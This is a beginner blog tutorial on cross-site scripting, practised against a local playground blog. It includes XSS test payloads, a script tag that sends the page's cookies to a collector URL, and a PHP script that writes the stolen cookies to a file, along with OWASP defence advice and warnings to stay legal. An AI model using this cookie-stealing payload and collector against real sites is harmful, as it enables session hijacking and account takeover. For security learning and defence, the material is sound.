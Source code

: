 ```yaml
---
layout: post
title: "Web Sec Tutorial -- XSS Injection"
subtitle: "Let's get hand safely dirty."
date: 2020-04-24 12:00:00
author: "Jason Denn"
header-img: "img/post-bg-2015.jpg"
catalog: true
tags:
  - Foundation - security
  - SQL injection
  - SODOTO
---
```


### Overview

Clone this [playground repo](https://github.com/hbxz/web-sec-3-XSS), you can run a local blog server and exploit it's XSS vulnerability, **legally**. 

>   I suggest that you only attack a website in your local machine. 

Use the admin account, (cause the register function is buggy at the moment) you can post a blog, comment on others. Simply put, it is a localhost website that accepts and displays UGC (user generated contents).

If you try to post some plain HTML strings, e.g `<h1>hello world</h1>`  you might find that the post and comment  dose not escape perfectly. There can be some loophole of HTML injection. 

You can try to attack it using some [helpful XSS payload example](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS Injection). I will show you one small example. 

Also check this awesome video: [Cookie Stealing - Computerphile](https://www.youtube.com/watch?v=T1QEs3mdJoc).

### What is XSS

>   Check this [owasp xss artical](https://owasp.org/www-community/attacks/xss/).
>
>   Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. 

Correct me if I'm wrong. My understanding is:

1.  a website has **HTML injection** vulnerability that can lead to **JS injection**

2.  this website presents UGC on other user's browsers

3.  Combining 1 and 2, an attacker can post malicious content that will run on other user's browsers. 
4.  And this malicious content can enjoy the trust and access right as the current website has on target browsers.

This makes cookie stealing possible. E.g: lots of websites use JWT as the passport for authentication. If someone has your JWT, he/she has all your access right. 



### How to attack

-   Identify an XSS endpoint:
    `<script>debugger;</script>`
    
    `<script>console.log('JS injection!');</script>`
    
-   stealing cokkie:
    `<script>new Image().src="http://localhost/cookie.php?c="+document.cookie;</script>`

Write the collected data into a file.

```php
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie.'\r\n');
fclose($fp);
?>
```

Here shows when I inject the js code as a post, this blog web page excute it and request a URL with current cokkie:

### ![image-20200424113844902](https://raw.githubusercontent.com/hbxz/picture-storage/master/2020/06/image-20200424113844902.png)How to defend

It starts from HTML injection. So bisic idea is escaping all the HTML content to it's orignal intended format. Performing the appropriate validation and escaping on the server-side is the core of solution.

Also check this [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html).



### Summary

Hey friend. Hope you have fun and get some feeling on "what XSS is". 

>   Please, please, don't get yourself in trouble by having fun illegally. 

Well, it just so happens, my [capstone project](https://github.com/hbxz/capstone-project-sunshine-waiter) also use JWT on access control. I'm the backend guy and responsible for security on all the APIs. You can run it locally and try to crack it. 

If you find any vulnerability, would you mind posting it on the issues so that I can learn from you as well?

Wish have FUN and stay safe!